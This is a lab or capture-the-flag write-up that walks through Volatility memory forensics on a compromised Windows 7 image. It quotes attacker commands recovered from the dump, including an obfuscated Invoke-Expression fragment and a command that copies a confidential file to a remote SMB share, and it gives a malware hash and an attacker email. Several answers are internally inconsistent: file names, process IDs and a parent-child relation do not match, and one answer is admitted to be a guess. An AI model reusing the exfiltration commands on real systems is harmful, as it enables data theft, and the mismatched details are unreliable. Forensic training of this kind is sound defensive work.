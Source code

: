 # First of all, the tool we need in this task is Volatility. Install both Volatility2 as well as Volatility3, because there are some tasks in which we have to run some commands that are not available in Volatility2. The command for Volatility2 will start with "vol.py" and that of Volatility3 will start with "vol".

1. Since we had to figure out the operating system's information, we will use the command of imageinfo [vol.py -f recollection.bin imageinfo]. This will return some information inwhich we can see a header of [Suggested Profile(s)] where the very first field represents our system profile [Win7SP1x64]. Hence, the answer is [Windows 7].

2. Under the same information, we can clearly see the time of creation of this dump [2022-12-19 16:07:30].

3. Since we want to get the copied data and we know that the copied data is in clipboard, so the command [vol.py -f recollection.bin --profile=Win7SP1x64 clipboard] gave us some information in which we can see the only present data [(gv '*MDR*').naMe[3,11,2]-joIN''].

4. Now our some upcoming tasks are related to the commands that the attacker executed. So, we will run the command that will show us consoles [vol.py -f recollection.bin --profile=Win7SP1x64 consoles]. This will return some data, which I have also saved in the data.txt file. Here when we see the shell of task-3 executed, there is a word [iex] in the very next line of that shell. This refers to the cmdlet name [Invoke-Expression].

5. Since our concern is with exfiltration of a file, so most probably this would be some sensitive file. Analyzing all the commands that were there, we can see a command being executed on the [Credentials.txt], which is the actual required command [type C:\Users\Public\Secret\Confidential.txt > \\192.168.0.171\pulice\pass.txt].

6. If we analyze the results of this command, we can clearly see that there were errors when the attacker tried to execute it. So the answer is [NO].

7. If we see the next command in which the user is trying to run a powershell command, there is some base64 encoded string [ZWNobyAiaGFja2VkIGJ5IG1hZmlhIiA+ICJDOlxVc2Vyc1xQdWJsaWNcT2ZmaWNlXHJlYWRtZS50eHQi]. If we decode it, we will see the what actually the attacker was trying to run [echo "hacked by mafia" > "C:\Users\Public\Office\readme.txt"]. So the path of the file is very clear in this command ["C:\Users\Public\Office\readme.txt"]

8. Since we get to know about the host machine, so lets just take some information of the machine by running the command [vol.py -f recollection.bin --profile=Win7SP1x64 hivelist]. This will give us the addresses of the machines. The address of [\REGISTRY\MACHINE\SYSTEM] can be clearly seen as [0xfffff8a000024010]. Now using this offset, run the command [vol.py -f recollection.bin --profile=Win7SP1x64 printkey -o 0xfffff8a000024010 -K "ControlSet001\Services\Tcpip\Parameters"]. This will give detailed information of this machine, where we can see the username of the machine [user-PC].

9. For the number of users, it is there as [QualifyingDestinationThreshold] which is [3].

10. Since our concern is with the passwords.txt file, so lets just run the command [vol.py -f recollection.bin --profile=Win7SP1x64 filescan | grep "passwords.txt"]. This will give us the information of the files of which we have given the grep filter. In our case, there is only one file [\Device\HarddiskVolume2\Users\user\AppData\Local\Microsoft\Edge\User Data\ZxcvbnData\3.0.0.0\passwords.txt].

11. Since the executable is named with its hash, and there is only one such file in the data that we also saved in data.txt, [b0ad704122d9cffddd57ec92991a1e99fc1ac02d5b4d8fd31720978c02635cb1].

12. In this task, we have to find the IMPHASH of the above malicious file. For this, we will be using a python script dump.py. But for this, we need the file itself. So we will first dump this file. Now to dump any file from the bin, we need its offset and the exact size of the file. The size of the file is given in data.txt. To find the offset, we will run [filescan] on this file using the command [vol.py -f recollection.bin --profile=Win7SP1x64 filescan | grep b0ad704122d9cffddd57ec92991a1e99fc1ac02d5b4d8fd31720978c02635cb1.exe]. Now, we can dump the file using the dumpfiles [vol.py -f recollection.bin --profile=Win7SP1x64 dumpfiles -Q 0x000000011fa45c20 -D ./]. This will save the dump of the file in the current directory working directory. Now use the following code to get the IMPHASH [d3b592cd9481e4f053b5362e22d61595] :
# import pefile
# pe = pefile.PE('./file.None.0xfffffa8003b62990.dat') # this is the dump of the file that was saved in my case
# print(pe.get_imphash())

13. Use [exiftool] to get the detailed information of the file [exiftool file.None.0xfffffa8003b62990.dat]. This gave me each and every information of the file, including the required creation time [2022-06-22 11:49:04].

14. Here, we had to figure out thr ip-address. So lets just run the command of netscan [vol.py -f recollection.bin --profile=Win7SP1x64 netscan]. This gave a long data in which we could observe the ip address [192.168.0.104].

15. Now, lets list down all the processes [vol.py -f recollection.bin --profile=Win7SP1x64 pslist] that will help to get the data of all the processes and their parents. Here we can observe the parent child relationship of the [cmd.exe] as a parent of [explorer.exe].

16. To get the email, I tried so many different commands with different filters, trying to make the filter more precise with the required format of the email. At last, [strings recollection.bin | grep -E -o "\b[A-Za-z0-9._%+-]+-[A-Za-z0-9._%+-]+@[A-Za-z0-9.-]+\.[A-Za-z]{2,3}m\b"] worked giving 7 results, in which one was [a65bded5-284b-407b-86df-db3050f7f451mafia_code1337@gmail.com] but the attacker had added some extra contents to maybe bypass any checks. The exact email was [mafia_code1337@gmail.com].

17. Since we know that the microsoft edge process is running on the process id 2032 (form task-15), we can use the command [vol.py -f recollection.bin --profile=Win7SP1x64 memdump -p 2380 -D ./] to dump the data of this process. Now [strings 2380.dmp | grep -i "siem"] will help us give the string that include siem. This have a little big data, in which there was a file [wazuh-agent-4.3.10-1.msi]. Hence, the SIEM solution id [Wazuh].

18. I don't have any solid reason that why do I think this was the file, but since there was mentioned that there is a typo and the name is mimicking, I could see one suspecious file in the data.txt where all the exe files are listed with the time of their creation [csrsss.exe].
